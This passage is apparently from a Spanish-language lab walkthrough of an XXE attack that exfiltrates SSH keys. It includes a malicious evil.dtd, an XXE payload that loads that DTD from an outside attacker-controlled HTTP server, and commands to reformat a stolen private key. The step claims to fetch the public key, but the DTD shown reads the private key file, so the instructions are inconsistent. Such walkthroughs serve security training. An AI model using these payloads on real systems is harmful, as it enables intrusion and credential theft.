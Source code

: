 Utilice el siguiente comando para guardar la clave privada formateada en el archivo fixed\_id\_rsa:

Mandar:

```
sed -e "s/-----BEGIN RSA PRIVATE KEY-----/&\n/" \
-e "s/-----END RSA PRIVATE KEY-----/\n&/" \
-e "s/\S\{64\}/&\n/g" \
id_rsa > fixed_id_rsa
```

Compruebe el contenido del archivo fixed\_id\_rsa:

Mandar:

```
cat fixed_id_rsa
```

La clave SSH privada bien formateada se ha colocado en un archivo.

Paso 11: Obtenga acceso SSH en la máquina de destino.

Tenemos la clave SSH privada, pero aún no sabemos el usuario al que pertenece.

Para usar las claves SSH para iniciar sesión, tenemos que averiguar el nombre de usuario correspondiente. Para ello, utilizaremos las claves SSH públicas. Este archivo puede contener el correo electrónico del usuario o el nombre de la cuenta seguido del nombre de host. En cualquiera de los dos casos, encontraremos el nombre de usuario.

Modifique el archivo evil.dtd para obtener el contenido del archivo id\_rsa.pub:

```
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888/.ssh/id_rsa">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

Inicie un servidor HTTP basado en Python en el puerto 8080:

Mandar:

```
python3 -m http.server 8080
```

Envíe la misma carga útil XXE que enviamos en el último paso:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://192.220.76.2:8080/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

El contenido de la clave SSH pública se recuperó correctamente.
